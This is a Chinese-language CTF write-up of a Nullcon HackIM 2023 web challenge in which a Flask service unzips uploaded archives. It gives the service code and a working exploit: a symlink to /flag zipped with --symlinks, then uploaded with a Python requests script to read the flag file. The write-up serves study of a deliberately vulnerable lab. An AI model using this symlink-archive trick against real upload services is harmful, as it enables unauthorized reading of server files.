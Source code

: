 题目说明：My colleague built a service which shows the contents of a zip file. He says there's nothing to worry about....
附件：

```yml
version: "3.1"
services:
  zpr:
    build:
      context: .
      dockerfile: Dockerfile.app
    volumes:
      - ./code:/app
      - shared_data:/tmp/data
    ports:
      - 10015:8080
    links:
      - serve
    depends_on:
      - serve
  serve:
    build:
      context: .
      dockerfile: Dockerfile.serve
    ports:
      - 10016:8088
    volumes:
      - ./code:/app
      - ./flag:/flag:ro
      - shared_data:/tmp/data
volumes:
  shared_data:
```

可以看到 /flag 目录就在根目录下

```py
from flask import Flask, Response, request
from werkzeug.utils import secure_filename
from subprocess import check_output
import io
import hashlib
import secrets
import zipfile
import os
import random
import glob

app = Flask(__name__)
app.config["MAX_CONTENT_LENGTH"] = 1.5 * 1000  # 1kb


@app.route("/", methods=["GET"])
def index():
    output = io.StringIO()
    output.write(
        "Send me your zipfile as a POST request and I'll make them accessible to you ;-0."
    )

    return Response(output.getvalue(), mimetype="text/plain")


@app.route("/", methods=["POST"])
def upload():
    output = io.StringIO()
    if "file" not in request.files:
        output.write("No file provided!\n")
        return Response(output.getvalue(), mimetype="text/plain")

    try:
        file = request.files["file"]

        filename = hashlib.md5(secrets.token_hex(8).encode()).hexdigest()
        dirname = hashlib.md5(filename.encode()).hexdigest()

        dpath = os.path.join("/tmp/data", dirname)
        fpath = os.path.join(dpath, filename + ".zip")

        os.mkdir(dpath)
        file.save(fpath)

        with zipfile.ZipFile(fpath) as zipf:
            files = zipf.infolist()
            if len(files) > 5:
                raise Exception("Too many files!")

            total_size = 0
            for the_file in files:
                if the_file.file_size > 50:
                    raise Exception("File too big.")

                total_size += the_file.file_size

            if total_size > 250:
                raise Exception("Files too big in total")

        check_output(["unzip", "-q", fpath, "-d", dpath])

        g = glob.glob(dpath + "/*")
        for f in g:
            output.write("Found a file: " + f + "\n")

        output.write("Find your files at http://...:8088/" + dirname + "/\n")

    except Exception as e:
        output.write("Error :-/\n")

    return Response(output.getvalue(), mimetype="text/plain")


if __name__ == "__main__":
    app.run(host="0.0.0.0", port="8080", debug=True)

```

app.py 我们应该 post 发送一个 zip 文件，上传后会放在一个文件夹内，命名不可预测，文件将在目录下解压

```py
from functools import partial
import http.server
import re

PORT = 8088
HOST = "0.0.0.0"

http.server.SimpleHTTPRequestHandler._orig_list_directory = (
    http.server.SimpleHTTPRequestHandler.list_directory
)


def better_list_directory(self, path):
    if not re.match(r"^/tmp/data/[0-9a-f]{32}", path):
        return None
    else:
        return self._orig_list_directory(path)


http.server.SimpleHTTPRequestHandler.list_directory = better_list_directory


Handler = partial(http.server.SimpleHTTPRequestHandler, directory="/tmp/data/")
Server = http.server.ThreadingHTTPServer


with Server((HOST, PORT), Handler) as httpd:
    httpd.serve_forever()

```

我们可以访问上面生成的那个文件，限制了 path 为/tmp/data/生成的目录名 的格式，所以并不能直接访问到 flag 目录

参考解答：
[Nullcon-HackIM-CTF-2023-writeups/README.md at main · Ramalingasamy012/Nullcon-HackIM-CTF-2023-writeups (github.com)](https://github.com/Ramalingasamy012/Nullcon-HackIM-CTF-2023-writeups/blob/main/README.md)

用到了软链接的一些特性： 1.软链接，以路径的形式存在。类似于 Windows 操作系统中的快捷方式 2.软链接可以 跨文件系统 3.软链接可以对一个不存在的文件名进行链接 4.软链接可以对目录进行链接

```
ln [参数][源文件或目录][目标文件或目录]
```

对于 zip 命令，有一个-y

```
zip [-AcdDfFghjJKlLmoqrSTuvVwXyz$][-b <工作目录>][-ll][-n <字尾字符串>][-t <日期时间>][-<压缩效率>][压缩文件][文件...][-i <范本样式>][-x <范本样式>]

-y 直接保存符号连接，而非该连接所指向的文件，本参数仅在UNIX之类的系统下有效。
```

根据以上特性，我们可以创造一个指向/flag 目录的软链接 然后压缩时保存符号连接
上传后解压，即可访问到/flag

构造 zip 包

```
ln -s /flag flag.txt
zip --symlinks flag.zip flag.txt
```

python 构造并发送请求

```
import requests

url="http://52.59.124.14:10015"
files={"file":open("C:/Users/24047/Desktop/flag.zip","rb")}
res=requests.post(url,files=files)
print(res.text)
```

最后访问 falg.txt 即可

参考：
[Linux 命令大全 | 菜鸟教程 (runoob.com)](https://www.runoob.com/linux/linux-command-manual.html)
[Nullcon-HackIM-CTF-2023-writeups/README.md at main · Ramalingasamy012/Nullcon-HackIM-CTF-2023-writeups (github.com)](https://github.com/Ramalingasamy012/Nullcon-HackIM-CTF-2023-writeups/blob/main/README.md)
